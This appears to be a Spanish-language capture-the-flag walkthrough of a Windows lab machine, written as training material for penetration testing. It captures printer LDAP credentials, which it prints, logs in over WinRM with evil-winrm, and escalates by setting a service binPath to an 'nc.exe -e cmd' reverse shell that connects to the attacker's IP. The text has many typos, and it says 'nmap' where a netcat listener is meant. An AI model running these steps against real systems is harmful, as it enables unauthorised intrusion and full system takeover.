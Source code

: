 Maquina windows

	[·] Empezariamos con el escaneo normal con nmap
	[·] Ahora a ver muchos puertos abietos y haber lanzado el reconcimiento exaustivo sobre esos puertos abiertos, no seria igual que en linux que te lanzarias de inmediato al ver su paguina, aqui vemos que esta un puerto abierto en que podemos identificar como el servicio smb con el puerto 445,  con la herramienta crackmapexcec podemos lanzar un reconocimiento a ese servivio en primer lugar
		sudo crackmapexec smb 10.10.11.108
	[·]De este recocnocimiento podemos sacr pocas cosas en este caso pero siempre vinene bien echarle un ojo, solo podemos ver el nombre de la maquina, dominio y que el SMB esta firmado
	[·]Habiendo acabado con esa prueba ahora si nos podemos lanzar con los puertos que tengan que ver con http, que son varios en esta maquina
	[·]En su pagina principal vemos, que es una pagina de una impresora
	viendola un poco llegamos al apartado de settings y ahi vemos que hcae una peticion a un servidor local por el puerto 389, en elservidor local podemos cambiar la direccion IP a por ejemplo la nuestra quiza, y vemos que nos da una contraseña y un usario
	[·]Obteniedno una credencial, con crackmapexcec podemos comprobarlas con la herramienta con el siguiente comando:
		crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
	y vwemos que nos da un estado exitoso
	[·]ahora lo comun que se hace en este punto es listar los recursos compartidos con smbmap o smbclinet, como en el escaneo vimos el puerto 5985 que eso es el winrm que corresponde al servicio de administracioin remota de windows, primiero lo probaremos denuebo con crackmapexcec (Recordando que para que eso sea posible eo usurio deberia estar dentro del grupo de remote management users) pero como no lo sabemos no perdemos nada con intentar
		rackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
	[·]Y el saber que estas credenciales son correctas lo que nos queda hacer ahora solo seria estar en el sistema, esto se logra con una erramienta evil-winrm
		evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
	[·]Ahora tenemos una consola de windows interactiva, y en este punto tenemos la flag del primer usario y aunque parezca que podemos ver la flag de root es solo un bait no caigan, aun nos queda convertirnos en administradores de la maquina
	[·]Para esto vamos a modificar el path de un servicio para poder enviarnos una reverse shell en la que seamos adminiistradores, esto lo logramos buscando entre los distintos servicios que corren en el servidor en cual tenemos servicios de modificacion y ejecutandole el siguinte comando
		sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd <IP> 443"
	y parando e inicaindo nuevamente el servicio a la vez que nos ponemos en escucha con nmap
	esto seria todo ahi deberiamos poder ver la flag de root